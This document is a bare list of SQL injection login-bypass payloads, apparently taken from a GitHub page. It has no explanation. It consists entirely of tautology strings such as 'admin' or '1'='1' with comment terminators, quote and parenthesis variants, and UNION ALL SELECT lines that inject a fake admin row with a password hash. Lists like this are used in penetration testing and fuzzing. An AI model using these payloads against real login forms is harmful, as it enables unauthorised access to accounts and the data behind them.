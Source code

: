 

or 1=1

or 1=1--

or 1=1#

or 1=1/*

admin' --

admin' #

admin'/*

admin' or '1'='1

admin' or '1'='1'--

admin' or '1'='1'#

admin' or '1'='1'/*

admin'or 1=1 or ''='

admin' or 1=1

admin' or 1=1--

admin' or 1=1#

admin' or 1=1/*

admin') or ('1'='1

admin') or ('1'='1'--

admin') or ('1'='1'#

admin') or ('1'='1'/*

admin') or '1'='1

admin') or '1'='1'--

admin') or '1'='1'#

admin') or '1'='1'/*

1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

admin" --

admin" #

admin"/*

admin" or "1"="1

admin" or "1"="1"--

admin" or "1"="1"#

admin" or "1"="1"/*

admin"or 1=1 or ""="

admin" or 1=1

admin" or 1=1--

admin" or 1=1#

admin" or 1=1/*

admin") or ("1"="1

admin") or ("1"="1"--

admin") or ("1"="1"#

admin") or ("1"="1"/*

admin") or "1"="1

admin") or "1"="1"--

admin") or "1"="1"#

admin") or "1"="1"/*

1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
